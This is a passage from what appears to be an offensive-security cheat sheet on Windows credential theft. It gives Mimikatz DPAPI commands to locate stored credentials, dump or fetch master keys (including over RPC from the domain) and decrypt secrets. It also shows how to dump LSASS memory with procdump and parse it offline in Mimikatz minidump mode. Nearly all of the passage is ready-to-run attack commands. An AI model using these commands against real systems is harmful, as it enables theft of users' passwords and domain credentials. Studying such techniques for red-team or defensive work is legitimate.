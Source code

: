 ```
# Find the IDs of protected secrets for a specific user
dir C:\Users\[USERNAME]\AppData\Local\Microsoft\Credentials

# Get information, including the used master key ID, from a specific secret (take the path from above)
dpapi::cred /in:C:\Users\[USERNAME]\AppData\Local\Microsoft\Credentials\1EF01CC92C17C670AC9E57B53C9134F3

# IF YOU ARE PRIVILEGED
# Dump all master keys from the current system
sekurlsa::dpapi

# IF YOU ARE NOT PRIVILEGED (session as target user required)
# Get the master key from the domain using RPC (the path contains the user SID, and then the ID of the masterkey identified in the previous step)
dpapi::masterkey /rpc /in:C:\Users\[USERNAME]\AppData\Roaming\Microsoft\Protect\S-1-5-21-3865823697-1816233505-1834004910-1124\dd89dddf-946b-4a80-9fd3-7f03ebd41ff4

# Decrypt the secret using the retrieved master key
# Alternatively, leave out /masterkey and add /unprotect to decrypt the secret using the cached master key (see above for caveats)
dpapi::cred /in:C:\Users\[USERNAME]]\AppData\Local\Microsoft\Credentials\1EF01CC92C17C670AC9E57B53C9134F3 /masterkey:91721d8b1ec[...]e0f02c3e44deece5f318ad
```

Plaintext

#### Dumping secrets without Mimikatz <a href="#dumping-secrets-without-mimikatz" id="dumping-secrets-without-mimikatz"></a>

We can also parse system secrets without using Mimikatz on the target system directly.

**Dumping LSASS**

The preferred way to run Mimikatz is to do it locally with a dumped copy of LSASS memory from the target. [Dumpert](https://github.com/outflanknl/Dumpert), [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), or other (custom) tooling can be used to dump LSASS memory.

```powershell
# Dump LSASS memory through a process snapshot (-r), avoiding interacting with it directly
.\procdump.exe -r -ma lsass.exe lsass.dmp
```

PowerShell

After downloading the memory dump file on our attacking system, we can run Mimikatz and switch to ‘Minidump’ mode to parse the file as follows. After this, we can run Mimikatz' credential retrieval commands as usual.

```
sekurlsa::minidump lsass.dmp
```

Plaintext
